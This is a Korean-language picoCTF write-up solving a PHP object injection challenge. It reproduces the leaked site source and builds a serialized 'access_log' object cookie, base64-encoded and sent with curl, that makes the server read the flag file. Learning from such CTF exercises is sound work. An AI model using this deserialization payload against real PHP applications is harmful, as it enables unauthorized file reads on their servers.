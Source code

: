 ```yaml
---
tags:
  - picoCTF
tech:
  - PHP Object Injection
---
```

#web #php #php-object-injection

# Walk-Through

문제 링크로 접속하면 username과 password 입력 박스가 보인다. 입력 박스를 통해 기본적으로 시도해볼 수 있는 SQL Injection 을 해봤지만 성공하진 않는다.

문제 풀이에 대한 힌트를 얻기 위해 사이트 내부로 돌아다니자. 일단 /robots.txt 를 접속 시도했을때 다음과 같은 내용이 보인다.
```txt
User-agent: *
Disallow: /admin.phps
```

https://www.solvusoft.com/ko/file-extensions/file-extension-PHPS 에 따르면 phps는 PHP Source를 볼 수 있는  파일이라고 되어있다. robots.txt를 통해 admin.phps가 노출된 걸 통해 사이트 내 다른 파일도 phps가 접근 가능한게 아닐까 ?

F12를 눌러 Network 탭을 통해 username & password 입력박스의 경로가 "/index.php" 라는 걸 확인할 수 있다. 이후 index.phps 로 접근하면 소스 파일을 열어볼 수 있다.
```php
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
?>
```
해당 소스를 흝어보니 로그인에 성공한 경우 authentication.php를 호출하는걸로 보아 이 파일도 phps로 접근하면 소스를 읽어볼 수 있을 듯 하다.
```php
<?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```
authentication.phps 에서 또한 cookie.php 파일을 확인할 수 있다. cookie.phps로 접속해서 소스를 확인하자.
```php
<?php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
```

cookie.phps를 통해 cookie에 login이라는 key를 통해 무언가 시도해볼 수 있는 것으로 보인다.

# PHP Object Injection
PHP Object injection은 unserialize() 함수에 사용자가 입력한 값을 전달되기 전에 제대로 삭제되지 않은 경우 발생한다고 한다.

PHP는 객체 직렬화를 허용하므로 공격자가 임시로 직렬화된 문자열을 취약한 unserializer() 호출에 전달하여 임의의 PHP 객체를 주입할 수 있다.

이 문제에서는 authentication.php에 정의된 "access_log"의 log_file 변수에 문제에서 힌트로 준 플래그 파일의 경로를 가리키게 해보자.  

# Payload

cookie의 login이라는 key에 입력할 value를 다음과 같이 입력하자.
```
O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
```
위 값이 의미하는 바는 각각 다음과 같다.
```
Object:Object Name Length:"Class Name":Object Size:{s}
```
O : Object
10 : Object Name Length
"access_log" : Class Name
1 : Object Size (입력값)
s : String
8 : String Length
log_file : String Name
s : String
7 : String Legnth
"../flag" : String Name


위 값을 base64로 encode 하며 다음과 같은 값이 나온다.
```
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```
브라우저의 쿠키 편집 도구를 이용해서 시도할 수도 있겠으나 단순히 curl을 이용해보자.
``` shell
╰─$ curl -v --cookie "login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9" http://mercury.picoctf.net:8404/authentication.php
```
위 curl 명령의 결과로 flag 획득이 가능하다.